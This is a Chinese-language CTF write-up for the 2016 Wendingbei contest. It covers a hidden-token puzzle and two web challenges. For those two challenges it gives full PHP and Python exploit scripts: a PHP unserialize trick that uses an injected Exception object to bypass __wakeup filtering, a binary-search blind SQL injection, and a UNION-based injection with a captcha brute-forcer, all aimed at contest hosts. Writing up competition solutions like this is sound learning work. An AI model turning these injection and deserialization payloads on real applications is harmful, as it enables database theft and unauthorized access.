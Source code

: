 # 问鼎杯2016

## 2-1

没什么好说的...就是脑洞

提交的url藏在页面里，搜一下`fulaige`可以找到提交token和key的url。然后是找token和key。

页面内联CSS中会有一项`t0ken: rgb(X, Y, Z)`，发几个请求diff一下就能注意到这里。
那么脑洞一下易知XYZ转成16进制后就是token。

然后是找key，css+html都藏过了那么就是藏在js里了吧。一开始注意到jquery 1.9.3搜不到这个版本，觉得藏在这里面。然后在控制台敲了个key浏览器就把key打出来了。

那么把key和token填在一开始得到的url里就能看到flag了。

## 2-2

跟`HITCON 2016`的`babytrick`很像，只是最后拿flag过程变成了盲注而已。

核心思路：
- 利用反序列化异常对象，来阻止`__wakeup`中的sql过滤代码被执行，直接执行`__destruct`。具体可以看HITCON的writeup，这里就不在多说了。
- 利用`>=`，`ascii()`，`substr()`等sql函数进行二分查找盲注加速拿flag

payload生成及获取flag代码：
```php
<?php

$res = "WDFLAG={Nation_is_more_important_than_anyt";

class COMEON {
    private $method;
    private $args;
    private $conn;

    function generate($str) {
        global $res;
        $this->conn = null;
        $this->method = 'show';
        $str = bin2hex($str);
        $pos = strlen($res)+1;
        $this->args = ["admin' and ascii(substr(password,{$pos},1)) >= 0x{$str} -- "];
        $this->isGenerator = true;
    }
    
    function __destruct() {
        if(isset($this->isGenerator)) return;
        if (!$this->conn) 
            echo "connect to db. ";
        echo "deconstruct called. ";
        //var_dump($this);
        if (in_array($this->method, array("show", "source"))) { 
            @call_user_func_array(array($this, $this->method), $this->args); 
        } 
    }
    
    function __wakeup() {
        foreach($this->args as $k => $v) {
            $this->args[$k] = strtolower(trim(mysql_escape_string($v)));
        }
    }
    
    function show() { 
        list($username) = func_get_args(); 
        if(preg_match("/\b(select|insert|update|delete)\b/i",$username)){ 
            die("hello,hacker!"); 
        }
        $sql = sprintf("SELECT * FROM users WHERE username='%s'", $username); 
        var_dump($sql);
    } 
}


$a = new COMEON();

$printable = [' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '|', '}', '~'];

function guess($i) {
    global $res, $a, $printable;
    $a->generate($i);
    $data = serialize($a); $data = str_replace(';N;', ';O:9:"Exception":2:{s:7:"*file";R:4;};', $data);
    $url = "http://sec3.hdu.edu.cn/831291d147f8429887af12bcb53e2d91/?data=".urlencode($data);
    $ret = file_get_contents($url);
    //var_dump($i . " " . $ret);
    return $ret === ' {"msg":"admin is admin"}';
}

// return max "admin is admin"
function binarySearch($fl, $fr) {
    global $printable;
    if($fl == $fr) {
        return guess($printable[$fl]) ? $fl : -1;
    }
    if($fl == $fr - 1) {
        if(guess($printable[$fr])) return $fr;
        return binarySearch($fl, $fl);
    }
    $m = ($fl + $fr) >> 1;
    if(guess($printable[$m])) {
        $tmp = binarySearch($m+1, $fr);
        if($tmp !== -1) return $tmp;
        else return $m;
    } else {
        return binarySearch($fl, $m-1);
    }
}

for($i =0; $i < 10; $i++) {
  $tmp = $printable[binarySearch(0, count($printable)-1)];
  $res .= $tmp;
  var_dump($res);
}

?>
```

## 5-2

没什么好说的..基本上就是裸注入
貌似`username`必须要为`user`，所以从`id`字段做手脚
把要注入回显的有用信息的字符串转成ascii码存在`id`字段里，一字节一字节地读取即可。
要先在`information_schema`表里查查`table_name`和`column_name`，可知是在`fffflag`表内的`fflag`列中。

代码：
```python
from hashlib import md5
import requests

def innerText(txt, st, fin):
    txt = txt[txt.index(st)+len(st):]
    return txt[:txt.index(fin)]

def solve(cap):
    t=0
    while md5(str(t)).hexdigest()[:len(cap)] != cap:
        t+=1
    return str(t)
    
ss = ''
for i in xrange(1,10000):
    s = requests.session()
    a = s.get('http://sec2.hdu.edu.cn/e33cdf8c2126fc5490fbc5d7fc269036/').content
    cap = innerText(a, ",0,4) =='", "'")
    ans = solve(cap)
    payload = '''(select group_concat(fflag) from ffff1ag)'''
    payload = '''200 union select ascii(mid(%s,%d,1)) as id,username from users -- ''' % (payload,i)
    ret = s.post('http://sec2.hdu.edu.cn/e33cdf8c2126fc5490fbc5d7fc269036/', data={'id': payload, 'code': ans}).text
    c = chr(int(innerText(ret, '<th>name</th></tr><tr><td>', '</td>')))
    if ord(c) == 0: break
    print c
    ss += c
    
print ss
```
